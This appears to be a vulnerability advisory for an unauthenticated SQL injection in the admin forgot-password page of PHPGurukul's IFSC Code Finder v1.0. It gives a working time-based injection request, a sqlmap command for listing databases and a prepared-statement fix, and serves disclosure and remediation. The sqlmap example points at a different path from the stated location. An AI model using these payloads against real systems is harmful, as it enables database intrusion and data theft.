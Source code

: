 # SQL Injection Vulnerability in IFSC Code Finder Project

## 🛠 Affected Product
- **Product:** IFSC Code Finder Project  
- **Version:** v1.0  
- **Vendor:** [phpgurukul.com](https://phpgurukul.com/ifsc-code-finder-project-using-php/)  
- **Download Link:** [Download v1.0](https://phpgurukul.com/?sdm_process_download=1&download_id=14478)

---

## 🧨 Vulnerability Details

- **Type:** SQL Injection  
- **Location:** `/admin/forgot-password.php`  
- **Vulnerable Parameters:** `email`, `contactno`
- **Authentication Required:** ❌ No (public access)
- **Submitter:** bananoname

---

## 📋 Description

A critical SQL Injection vulnerability exists in `admin/forgot-password.php` in the IFSC Code Finder Project v1.0 by PHPGurukul. The application does not properly sanitize user-supplied input (`email` and `contactno`) before using it in SQL queries, allowing unauthenticated attackers to inject malicious SQL.

### Impact:
- Unauthorized database access
- Data leakage and tampering
- Possible full system compromise

---

## 🧪 Proof of Concept (PoC)

``````http
POST /admin/forgot-password.php HTTP/1.1
Host: victim-site.com
Content-Type: application/x-www-form-urlencoded

email=admin' AND (SELECT 1218 FROM (SELECT(SLEEP(5)))NvLc) AND 'HtBe'='HtBe&contactno=12323123&submit=Reset
``````
![image](https://github.com/user-attachments/assets/074eb397-1114-4e00-8b1b-1b346ac008c5)

✅ Expected Behavior:
Page should return "Invalid details"

❌ Actual Behavior:
Page redirects to reset-password.php even when email/contact doesn't exist, indicating successful injection.

And then use sqlmap below 
And then use sqlmap like this:

```bash
sqlmap -u 'http://10.20.3.7/msms/admin/forgot-password.php' \
# ↓↓↓ This is the vulnerable input ↓↓↓
--data="email=admin&contactno=12323123&submit=Reset" \
--dbs
```
![image](https://github.com/user-attachments/assets/960a424f-6e75-4219-9e30-fbc0b8da8124)
## 🎯 Impact
An attacker can exploit this vulnerability to:
- Bypass authentication
- Read sensitive data from the database
- Modify or delete data
- Escalate privileges
- Potentially achieve full control over the system

## 🛠 Suggested Repair
- To patch this vulnerability:
- ✅ Replace unsafe query:
```
$query = mysqli_query($con, "SELECT ID FROM tbladmin WHERE Email='$email' AND MobileNumber='$contactno'");
```
❌ Unsafe: Uses raw user input in SQL.
✅ Use prepared statements (MySQLi) instead:
```
$stmt = $con->prepare("SELECT ID FROM tbladmin WHERE Email = ? AND MobileNumber = ?");
$stmt->bind_param("ss", $email, $contactno);
$stmt->execute();
$result = $stmt->get_result();
```
## ➕ Additional Recommendations:
- Validate input types (e.g., regex for email and contact number)
- Enable error logging (not error_reporting(0))
- Use a Web Application Firewall (WAF)
- Sanitize all POST/GET parameters before using them
